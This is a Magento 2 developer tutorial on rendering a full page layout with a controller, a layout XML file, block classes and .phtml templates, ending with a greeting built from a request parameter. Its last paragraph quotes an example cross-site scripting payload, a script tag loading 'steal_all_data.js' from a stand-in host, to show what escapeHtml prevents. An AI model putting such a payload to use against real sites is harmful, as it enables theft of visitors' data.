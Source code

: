 # Rendering Page Layout

Now that we did successfully shown our custom response we may want more.
As our simple response is not showing whole page - what steps we should do in order to embed our response in full website?

## Starting rendering engine

In order to start page rendering engine our action controller should return `Magento\Framework\View\Result\Page` object.
We can achieve that by changing parameter passed to `Magento\Framework\Controller\ResultFactory`.

```php
<?php

namespace MMAcademy\Hello\Controller\Index;

use Magento\Framework\App\Action\Action;
use Magento\Framework\App\ResponseInterface;
use Magento\Framework\Controller\ResultFactory;
use Magento\Framework\View\Result\Page;

class Index extends Action
{
    /**
     * Dispatch request
     *
     * @return \Magento\Framework\Controller\ResultInterface|ResponseInterface
     * @throws \InvalidArgumentException
     * @throws \Magento\Framework\Exception\NotFoundException
     */
    public function execute()
    {
        /** @var Page $result */
        $result = $this->resultFactory->create(ResultFactory::TYPE_PAGE);

        return $result;
    }
}
```

With above code in our controller action we should see our page rendered fully, but without our message.

## Page structure

Page structure is represented by tree-like structure build of containers and blocks that guides final HTML rendering.
Details will be covered in [Frontend: Layout](/frontend/layout/overview.md) section.
But for now we should know that we can reference containers in order to add blocks to them.
Blocks will be connected to php class that contains it's rendering logic.

Final page structure is build based on xml files that are composed together based on handles registered for given page.
Apart from `default` handle standard router automatically applies handle based on current action controller.
Handle is build based on route identifier, controller name and action controller name - in our case result will be as follows: `hello_index_index`.

Lets add `view/frontend/layout/hello_index_index.xml` file to our module so we can impact page rendered by `MMAcademy\Hello\Controller\Index\Index`. 

```xml
<?xml version="1.0"?>

<page xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
      layout="3columns"
      xsi:noNamespaceSchemaLocation="urn:magento:framework:View/Layout/etc/page_configuration.xsd">
    <body>
        <referenceContainer name="main">
            <block name="hello" class="MMAcademy\Hello\Block\Hello"/>
        </referenceContainer>
    </body>
</page>
```

Code above will enforce 3 column layout for rendered page (via `layout` attribute on `page` element) and add block with name `hello` to `main` container (representing center of the page).
In `hello` block definition we bound it with `MMAcademy\Hello\Block\Hello` class as it's implementation.

So let's create minimalistic version of this block.
Base for all blocks is `Magento\Framework\View\Element\AbstractBlock` and provides base implementation of `Magento\Framework\View\Element\BlockInterface`.
In order to see our message we only have to provide implementation of abstracted `prodected function _toHtml()` method.

```php
<?php

namespace MMAcademy\Hello\Block;

use Magento\Framework\View\Element\AbstractBlock;

class Hello extends AbstractBlock
{
    protected function _toHtml()
    {
        return 'test';
    }
}
```

## Using templates

But of course we should not mix business logic with view logic.
In order to achieve that it is very common to base block class implementations on `Magento\Framework\View\Element\Template` class.
This class provides implementation of `_toHtml()` method that will lookup template file and use it to render response.
That way block logic is contained in block class and view logic is contained within template file.

We can provide path to default template using `$_template` property.
Template path can consists of module name that provides template file and name of template file within that module concatenated by `::`.

```php
<?php

namespace MMAcademy\Hello\Block;

use Magento\Framework\View\Element\Template;

class Hello extends Template
{
    protected $_template = 'MMAcademy_Hello::hello.phtml';
}
```

It is common to use `.phtml` extensions to differentiate between php files with business logic and those with view logic.
Now lets create our template in `view/frontend/templates/hello.phtml`.

```php
<?php /** @var \MMAcademy\Hello\Block\Hello $block */ ?>
<h1>Hello there</h1>
<p>Oh, hi hello, how are You?</p>
```

Note that first line is optional and only informs Your IDE that this template is bound with specific class.

## Accessing request data 

To finish up with this example let's access request parameters in order to greet user by his name.

Block abstract implementation allows us to access current request via `$_request` property so lets create new public method that will return value of `name` param.

```php
<?php

namespace MMAcademy\Hello\Block;

use Magento\Framework\View\Element\Template;

class Hello extends Template
{
    protected $_template = 'MMAcademy_Hello::hello.phtml';

    public function getName()
    {
        return $this->_request->getParam('name');
    }
}
```

And now lets add some view logic to our template.
We would like to show different messages when we know and when we don't know customers name.

```php
<?php /** @var \MMAcademy\Hello\Block\Hello $block */ ?>
<h1>Hello there</h1>
<?php if($block->getName()): ?>
    <p>Whats up <?= $block->escapeHtml($block->getName()) ?>?</p>
<?php else: ?>
    <p>Oh, hi hello, how are You?</p>
<?php endif ?>
```

> `<?= $message ?>` is shorthand for `<?php echo($message) ?>`

So You can see that we added `if` statement based on result of `getName()` method we added in our block.
Also we did use `escapeHtml($message)` method to prevent injection of malicious code (like `<script src="http://hacker.me/steal_all_data.js"/>`) via `name` parameter.

You can now try in You browsers addresses like `/hello?name=Bob` or `/hello/index/index/name/Alice` to see that both parameter passing methods work correctly.


